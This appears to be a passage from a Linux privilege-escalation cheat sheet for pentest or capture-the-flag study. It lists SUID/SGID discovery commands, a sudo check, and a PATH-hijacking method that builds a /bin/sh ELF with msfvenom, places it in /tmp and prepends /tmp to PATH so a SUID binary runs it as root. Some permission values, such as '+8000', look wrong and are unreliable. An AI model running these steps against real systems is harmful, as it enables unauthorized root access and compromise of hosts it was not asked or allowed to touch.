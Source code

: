 ## List gpg keys
```
gpg --list-keys
```


# SUID Binaries
## Find SUID enabled files 
```
find / -perm -u=s -type f 2>/dev/null
find / -perm +4000 -type f 2>/dev/null
```

## Find SGID enabled files
```
find / -perm /2000 -ls 2>/dev/null
find / -perm +8000 -ls 2>/dev/null
```

## Search on
https://gtfobins.github.io  

## If unusual binary has SUID set, check for script calls without absolute path
```
strings <binary>
```

## Generate shell
```
msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o <file>
msfvenom -p linux/x64/exec CMD=/bin/sh -f elf -o <file>
```

## Download to /tmp and set execution bit
```
chmod 755 <file>
```

## Set new environment variable and execute unusual binary
```
export PATH=/tmp:$PATH
```


# Sudo
## Show all available sudo commands
```
sudo -l
```
